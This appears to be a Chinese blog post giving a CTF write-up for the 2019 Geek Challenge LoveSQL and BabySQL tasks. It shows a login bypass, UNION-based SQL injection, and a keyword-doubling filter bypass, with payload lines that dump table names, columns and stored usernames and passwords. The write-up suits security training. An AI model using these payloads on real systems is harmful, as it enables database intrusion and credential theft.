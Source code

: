 ```yaml
---
title: 极客大挑战 2019 LoveSQL，BabySQL
date: 2024-09-13 19:16:12
permalink: /pages/7402d2/
sidebar: false
article: false
author: 
  name: the0n3
  link: https://the0n3.top
---
```

## [极客大挑战 2019]LoveSQL

提交参数，url后拼接了参数和值

![1](https://the0n3.top/medias/daily/lovesql/1.png)

hackbar测试admin用户万能密码，可以成功登录。username的`#`井号需要url编码

![2](https://the0n3.top/medias/daily/lovesql/2.png)

`order by`测试字段数，3正常，4报错。只有3个字段

![3](https://the0n3.top/medias/daily/lovesql/3.png)

联合注入，2，3是回显位

![4](https://the0n3.top/medias/daily/lovesql/4.png)

使用hackbar自带的sql注入，爆出库，表`geekuser`,`l0ve1ysq1`，字段`username`,`password`

![5](https://the0n3.top/medias/daily/lovesql/5.png)

![6](https://the0n3.top/medias/daily/lovesql/6.png)

hackbar没有具体到字段数据，写一个查数据语句

```sql
union select 1,group_concat(username,password),3 from l0ve1ysq1
```

拿到flag

## [极客大挑战 2019]BabySQL

上一题的万能密码拿来用报错了

![7](https://the0n3.top/medias/daily/lovesql/7.png)

双写or，发现就可以过了，说明这题过滤了常用字符串，替换成空格，导致题目报错

![8](https://the0n3.top/medias/daily/lovesql/8.png)

双写联合注入

![9](https://the0n3.top/medias/daily/lovesql/9.png)

查询语句的from,where,information里的`or`也被吞掉了，需要双写
![10](https://the0n3.top/medias/daily/lovesql/10.png)

查表`b4bsql,geekuser`，查字段`id,username,password`，查数据

```sql
# 爆表
ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema=database()
# 爆字段
ununionion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_schema=database()
# 爆数据，password的or也要双写
ununionion seselectlect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql%23
```

![11](https://the0n3.top/medias/daily/lovesql/11.png)